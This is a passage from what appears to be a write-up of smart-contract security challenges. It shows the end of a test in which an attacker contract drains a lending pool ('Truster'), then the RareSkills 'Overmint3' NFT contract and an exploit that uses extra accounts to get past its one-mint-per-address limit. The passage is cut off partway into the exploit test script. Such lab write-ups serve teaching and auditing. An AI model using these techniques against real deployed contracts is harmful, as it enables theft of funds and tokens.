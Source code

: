 ```javascript
      await ethers.getContractFactory("TrusterAttacker", deployer)
    ).deploy(token.address, pool.address);

    await attacker.connect(player).attack();
  });

  after(async function () {
    /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

    // Player has taken all tokens from the pool
    expect(await token.balanceOf(player.address)).to.equal(TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.equal(0);
  });
});
```

## RareSkills Riddles - Overmint3

### Contracts

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract Overmint3 is ERC721 {
    using Address for address;
    mapping(address => uint256) public amountMinted;
    uint256 public totalSupply;

    constructor() ERC721("Overmint3", "AT") {}

    function mint() external {
        require(!msg.sender.isContract(), "no contracts");
        require(amountMinted[msg.sender] < 1, "only 1 NFT");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }
}
```

### Exploit

To solve this riddle, we have to find a way to mint 5 NFTs to the attacker's wallet. While we can't call `mint()` five times from the attacker's wallet because of the second `require` statement, we can create four additional accounts, mint NFTs from these accounts, and subsequently transfer those NFTs to the attacker's wallet. 

_Overmint3.js_
```javascript
const { time, loadFixture } = require("@nomicfoundation/hardhat-network-helpers");
const { anyValue } = require("@nomicfoundation/hardhat-chai-matchers/withArgs");
const { expect } = require("chai");
const { ethers } = require("hardhat");

const NAME = "Overmint3";

describe(NAME, function () {
    async function setup() {
        const [owner, attackerWallet] = await ethers.getSigners();

        const VictimFactory = await ethers.getContractFactory(NAME);
```
